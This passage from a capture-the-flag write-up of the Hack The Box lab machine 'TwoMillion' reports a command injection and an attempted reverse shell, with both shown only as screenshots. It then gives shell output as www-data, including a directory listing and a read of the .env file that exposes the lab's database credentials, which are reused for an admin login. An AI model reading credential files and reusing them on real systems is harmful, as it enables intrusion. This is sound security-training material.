 Trying to open a vpn as an admin:
![15d60a48d6aa8df807de991f8db7b242.png](/assets/twomillions/15d60a48d6aa8df807de991f8db7b242.png)

### Command Injection Testing
We identified a command injection vulnerability:
![38eaf9aa1baf84e710048e6ac6eb0d0e.png](/assets/twomillions/38eaf9aa1baf84e710048e6ac6eb0d0e.png)

We attempted to use a reverse shell:

![e94d585d756507622c5b122442e6d074.png](/assets/twomillions/e94d585d756507622c5b122442e6d074.png)

## Post-Exploitation Phase

### Enumeration as www-data
After gaining access, we started enumerating as www-data:

```bash
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Jul 21 15:30 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jul 21 15:30 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

etc/passwd File
![c6702f5076ef892a0c613e4b3900722d.png](/assets/twomillions/c6702f5076ef892a0c613e4b3900722d.png)

### Logging in as Admin
We tried logging in as the admin user:
![c5d817989ff3e0cfa3165f2c793457b5.png](/assets/twomillions/c5d817989ff3e0cfa3165f2c793457b5.png)
